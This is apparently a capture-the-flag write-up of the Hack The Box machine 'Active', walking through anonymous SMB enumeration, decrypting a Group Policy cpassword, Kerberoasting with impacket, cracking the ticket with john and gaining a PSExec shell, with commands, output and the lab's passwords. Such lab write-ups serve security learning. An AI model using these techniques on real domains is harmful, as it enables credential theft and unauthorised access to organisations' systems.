 ```yaml
---
layout: PostSimple
date: 2020-04-22
title:     "Hack The Box - Active"
tags: ['windows','easy','smb','kerberos','psexec']
layout: PostSimple
---
```



![73f757b7fcd980b15078520b34f12dd2.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/74a132f10e0d4e0797bf934c20a1a352.png)

We are going to pwn Active from Hack The Box.

Link: <https://www.hackthebox.eu/home/machines/profile/148>

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49182/tcp open  unknown
```
There are many ports open, let's start with `SMB`

## SMB:

I logged in without the password.
```
root@w0lf:~# smbclient -L 10.10.10.100 
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
Let's check what's inside them.

It seems like I only have access to `Replication`
>smbclient //10.10.10.100/Replication

```
root@w0lf:~# smbclient //10.10.10.100/Replication
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  active.htb                          D        0  Sat Jul 21 16:07:44 2018

		10459647 blocks of size 4096. 4922655 blocks available
```
```
smb: \> cd active.htb
smb: \active.htb\> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 16:07:44 2018
  Policies                            D        0  Sat Jul 21 16:07:44 2018
  scripts                             D        0  Thu Jul 19 00:18:57 2018

		10459647 blocks of size 4096. 4922655 blocks available
smb: \active.htb\> 
```

I downloaded all the files in the box to my machine using `smbget`.
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbget -R smb://10.10.10.100/Replication/
Password for [root] connecting to //Replication/10.10.10.100: 
Using workgroup WORKGROUP, user root
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml                                                                                                              
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
Downloaded 8.11kB in 33 seconds
```

I found a Interesting file `Groups.xml` in `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

That file contains username and an encrypted password. It's a GPP Password.
![sample.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/24959afb5d6e44d98d32b8dcaec80e67.png)


There is a tool in kali `gpp-decrypt` to crack this password.
To know more about what is `cpassword` and `GPP`, you can read [here](https://adsecurity.org/?p=2288).
```
root@w0lf:~/CTF/HTB/Boxes/Active/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups# gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18
```
So the password is `GPPstillStandingStrong2k18`.

## User:

I logged in as `SVC_TGS : GPPstillStandingStrong2k18`
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbclient //10.10.10.100/Users -U "SVC_TGS"
Enter WORKGROUP\SVC_TGS's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 20:09:20 2018
  ..                                 DR        0  Sat Jul 21 20:09:20 2018
  Administrator                       D        0  Mon Jul 16 15:44:21 2018
  All Users                         DHS        0  Tue Jul 14 10:36:44 2009
  Default                           DHR        0  Tue Jul 14 12:08:21 2009
  Default User                      DHS        0  Tue Jul 14 10:36:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:27:55 2009
  Public                             DR        0  Tue Jul 14 10:27:55 2009
  SVC_TGS                             D        0  Sat Jul 21 20:46:32 2018

		10459647 blocks of size 4096. 4922639 blocks available
```

Got User Flag:<br/>
![032652c6512aa3dc46398b218303cf90.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/8b2e0f9b19b241a28faf4d16ab74a337.png)

## Kerberosting:

We know port 88 is open, so we can move on to the kerberosting technique.

### Step 1:

First we need to get administrator Kerberos ticket. For that we can use `GetUserSPNs.py` from [impacket](https://github.com/SecureAuthCorp/impacket).
>GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS

![edacd9dbbaaf65bf047828e5b08df799.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/1be013c86ce44243b7ec30f8b61116d6.png)
Now we can crack this using `john`.

### Step 2:

Cracking the ticket using `john`<br/>
![033afd7f0ad9118331aaa540749471a9.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/797ea49a2e2846c4a38b012202d15e11.png)<br/>
And we got the administrator password : `Ticketmaster1968`

## Getting system Shell:

I can get a shell with PSExec which is also from Impacket.
![f56036627caa1deb8121811a74e7e25e.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/59b5673a954140508edae991d29f4b71.png)

We own the root!!












